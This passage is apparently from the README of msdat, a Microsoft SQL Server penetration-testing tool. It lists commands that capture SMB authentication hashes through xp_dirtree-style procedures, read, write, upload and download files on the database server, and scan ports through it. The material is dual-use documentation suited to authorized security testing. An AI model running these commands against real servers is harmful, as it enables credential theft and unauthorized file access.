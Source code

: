 If you want to choose the SMB authentication procedure to capture the authentication:
```bash
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD --xp-dirtree-capture 127.0.0.1
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD --xp-fileexist-capture 127.0.0.1
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD --xp-getfiledetails-capture 127.0.0.1
```

You can change the SHARE name with the *--share-name* option.

*oleautomation* module
---

This module can be used to read/write file in the database server.

The following command read the file *temp.txt* stored in the database server:
```bash
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --read-file 'C:\Users\Administrator\Desktop\temp.txt'
```

To write a string in a file (*temp.txt*) remotely:
```bash
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --write-file 'C:\Users\Administrator\Desktop\temp.txt' 'a\nb\nc\nd\ne\nf'
```

This module can be used to download a file (*C:\Users\Administrator\Desktop\temp.txt*) stored on the database server:
```bash
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --get-file 'C:\Users\Administrator\Desktop\temp.txt' temp.txt
```

Also, you can use this module to upload a file (*temp.txt*) on the target:
```bash
./msdat.py oleautomation -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --put-file temp.txt 'C:\Users\Administrator\Desktop\temp.txt
```

*bulkopen* module
---

The module *bulkopen* can be used :
* to read/download files stored on a database server 
* to scan ports through the database server
* to execute SQL requests on a remote MSSQL server through the database

To read a file stored in the target, the following command can be used:
```bash
./msdat.py bulkopen -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --read-file 'C:\Users\Administrator\Desktop\temp.txt'"
```

The *--method* option can be used to specify the method to use:
* *bulkinsert* ([https://msdn.microsoft.com/en-us/library/ms188365.aspx](https://msdn.microsoft.com/en-us/library/ms188365.aspx)) or 
* *openrowset*([https://msdn.microsoft.com/en-us/library/ms190312.aspx](https://msdn.microsoft.com/en-us/library/ms190312.aspx))):
